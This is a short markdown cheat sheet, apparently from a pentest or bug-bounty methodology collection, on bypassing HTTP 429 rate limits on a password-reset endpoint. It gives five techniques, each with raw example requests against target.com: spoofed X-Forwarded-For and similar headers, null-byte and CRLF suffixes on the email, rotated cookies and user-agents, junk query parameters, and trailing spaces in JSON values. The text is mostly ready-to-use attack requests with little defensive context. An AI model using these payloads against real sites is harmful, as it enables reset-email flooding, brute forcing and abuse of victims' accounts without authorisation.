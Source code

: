 # Bypass 429 (Too Many Requests)
 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
[...]

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
[...]

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com "}
```

## References
* [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
* [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)